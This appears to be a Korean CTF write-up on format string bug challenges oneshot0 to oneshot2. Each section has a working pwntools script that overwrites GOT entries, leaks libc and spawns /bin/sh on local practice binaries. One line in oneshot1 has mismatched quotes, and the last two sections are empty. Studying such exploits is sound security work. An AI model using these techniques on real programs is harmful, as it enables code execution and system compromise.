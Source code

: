 # fsb

## oneshot0

주어진 gift 함수를 실행하면 된다. PIE가 없고 partial RELRO이므로 fsb를 활용하여 exit 함수의 got를 gift함수의 주소로 덮어쓸 수 있다. gift 함수의 주소값이 크기 때문에 출력하는 것에 시간이 오래 걸리므로 %hn을 이용하여 2bytes씩 2회에 걸쳐 나누어서 입력할 수 있다. gift의 주소를 2부분으로 나눈 뒤 각각 exit+2와 exit에 입력할 수 있다. payload의 길이는 8의 배수여야 하므로 0x20으로 설정하면 offset은 6이지만 payload 길이로 인해 실제 입력하는 offset은 10과 11이 된다. payload를 보내면 exit_got를 gift로 변조할 수 있다.

```python

from pwn import *

# context.log_level = 'debug'

e = ELF("./oneshot")
p = process(e.path)


p.recvuntil(b"\n\n")
payload = f'%{e.symbols["gift"] >> 16}c'.encode() #gift_high
payload += b"%10$hn"
payload += f"%{(e.symbols['gift'] & 0xffff) - (e.symbols['gift'] >> 16)}c".encode() #gift_low - gift_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])
p.send(payload)

p.interactive()


```


## oneshot1

앞 문제와 다르게 system 함수만 주어져 있고 "/bin/sh"는 주어져 있지 않다. printf 함수의 got를 system 함수로 덮어쓰고 buf에 입력을 받을 때 "/bin/sh"를 입력하면 system("/bin/sh")를 실행할 수 있다. 이때 2번 이상 입력을 받아야 하므로 exit의 got를 main으로 덮어야 단계를 실행할 수 있을 것으로 보인다.  
payload 단계를 구성할 수 있다.
1. exit_got을 main으로 덮는다.
2. printf_got을 system으로 덮는다.
3. "/bin/sh"을 전송한다.


```python

from pwn import *

# context.log_level = 'debug'

e = ELF("./oneshot")
p = process(e.path)
libc = e.libc



p.recvuntil(b"\n\n")
payload = f'%{e.symbols["main"] >> 16}c'.encode() #main_high
payload += b"%10$hn"
payload += f"%{(e.symbols['main'] & 0xffff) - (e.symbols['main'] >> 16)}c".encode() #main_low - main_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])

p.send(payload)


p.recvuntil(b"\n\n")
payload = f'%{e.symbols["system"] >> 16}c'.encode() #system_high
payload += b"%10$hn"
payload += f"%{(e.symbols['system'] & 0xffff) - (e.symbols['system'] >> 16)}c".encode() #system_low - system_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["printf"] + 2)
payload += p64(e.got['printf"])
p.send(payload)


p.send('/bin/sh\x00')


p.interactive()


```



## oneshot2

system 함수와 "/bin/sh"가 주어져 있지 않으므로 libc_leak을 통해 구해서 풀어야 하는 문제로 보인다




```python

from pwn import *

p = process('./fsb_got64_2')
e = ELF('./fsb_got64_2')
libc = e.libc


main = e.symbols['main']
exit_got = e.got['exit']
printf_got = e.got['printf']

log.info('\texit@got '+hex(exit_got))
log.info('\tmain '+hex(main))


main_low = main & 0xffff
main_high = (main >> 16) & 0xffff

log.info('### main ###')
log.info('[1] input : exit@got -> main')

# offset 6
payload = ''
payload += '%{}c'.format(main_high)
payload += '%9$hn'
payload += '%{}c'.format(main_low - main_high)
payload += '%10$hn'
payload += 'AAA'
payload += p64(exit_got + 2)
payload += p64(exit_got)

#pause()
p.send(payload)


log.info('### main ###')
log.info('[2] libc leak')

payload = ''
payload += 'leak:%77$p'

#pause()
p.sendline(payload)

p.recvuntil('leak:')
leak = int(p.recv(14),16) 
log.info('\tleak : '+ hex(leak))

libc_base = leak - libc.symbols['__libc_start_main'] - 231
system = libc_base + libc.symbols['system']

log.info('\tlibc base '+ hex(libc_base))
log.info('\tprintf@got '+hex(printf_got))
log.info('\tsystem '+hex(system))



###
system_low = system & 0xffff
system_middle = (system >> 16) & 0xffff
system_high = (system >> 32) & 0xffff

low = system_low

if system_middle > system_low:
    middle = system_middle - system_low
else:
    middle = 0x10000 + system_middle - system_low

if system_high > system_middle:
    high = system_high - system_middle
else:
    high = 0x10000 + system_high - system_middle


log.info('### main ###')
log.info('[3] input : printf@got -> system')

# offset 6
payload = ''
payload += '%{}c'.format(low)
payload += '%11$hn'
payload += '%{}c'.format(middle)
payload += '%12$hn'
payload += '%{}c'.format(high)
payload += '%13$hn'
payload += 'A' * (8 - len(payload) % 8)
payload += p64(printf_got)
payload += p64(printf_got + 2)
payload += p64(printf_got + 4)

pause()
p.send(payload)

log.info('### main ###')
log.info('[4] input : /bin/sh\x00')
p.send('/bin/sh\x00')

p.interactive()


```




## oneshot3

새로운 문제이다.





## oneshot4
